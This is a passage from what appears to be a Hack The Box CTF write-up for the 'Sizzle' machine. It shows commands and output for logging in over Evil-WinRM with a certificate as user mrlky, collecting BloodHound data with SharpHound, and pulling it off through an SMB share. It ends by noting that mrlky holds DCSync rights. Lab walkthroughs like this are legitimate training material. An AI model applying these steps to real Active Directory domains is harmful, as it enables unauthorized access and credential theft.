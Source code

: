 So I created them and logged in as mrlky.

```bash
root@kali:~/CTF/HTB/Boxes/Sizzle# evil-winrm -S -i 10.10.10.103 -u mrlky -c certnew.cer -k mrlky.key

Evil-WinRM shell v2.3

Warning: SSL enabled

Info: Establishing connection to remote endpoint

Enter PEM pass phrase:
*Evil-WinRM* PS C:\Users\mrlky.HTB\Documents> whoami
htb\mrlky
```

## Privilege Escalation

I just run SharpHound again and to copy that to our machine, I just used the SMB Share `Department Shares\Users\Public` and download via smbclient in my machine.

```bash
*Evil-WinRM* PS C:\windows\system32\spool\drivers\color> copy 20200731001658_BloodHound.zip 'C:\Department Shares\Users\Public'
Enter PEM pass phrase:

root@kali:~/CTF/HTB/Boxes/Sizzle# smbclient '//10.10.10.103/Department Shares'
Enter WORKGROUP\root's password: 
Try "help" to get a list of possible commands.
smb: \> cd users/public
smb: \users\public\> ls
  .                                   D        0  Fri Jul 31 09:49:25 2020
  ..                                  D        0  Fri Jul 31 09:49:25 2020
  20200731001658_BloodHound.zip       A     9142  Fri Jul 31 09:46:59 2020

		7779839 blocks of size 4096. 2621288 blocks available
smb: \users\public\> get 20200731001658_BloodHound.zip
getting file \users\public\20200731001658_BloodHound.zip of size 9142 as 20200731001658_BloodHound.zip (7.9 KiloBytes/sec) (average 7.9 KiloBytes/sec)
smb: \users\public\>
```

By Checking the Queries, I can see mrlky is in DCSync Rights. So We can do DCSync attacks.
